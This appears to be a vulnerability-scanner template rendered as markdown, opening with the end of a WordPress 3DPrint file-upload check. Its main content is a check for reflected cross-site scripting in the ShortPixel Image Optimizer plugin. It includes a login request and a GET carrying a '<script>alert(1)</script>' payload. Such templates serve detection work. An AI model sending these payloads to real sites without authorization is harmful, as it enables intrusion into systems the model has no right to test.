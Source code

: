 **Type - dsl**
- dsl
    1. contains(all_headers_2, "text/html")
    2. status_code_2 == 200
    3. contains(body_2, '3DPrint-arbitrary-file-upload')
- condition - and

---
# WordPress ShortPixel Image Optimizer \<4.22.10 - Cross-Site Scripting
## Description
- WordPress ShortPixel Image Optimizer 4.22.10 does not escape generated URLs before outputting them back in an attribute, leading to reflected cross-site scripting.
- severity - medium
- tags - shortpixel,authenticated,wpscan,xss,wp-plugin,wp,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/options-general.php?page=wp-shortpixel-settings&"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. &\">\<script>alert(1)\</script>&noheader=true&sp-action

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---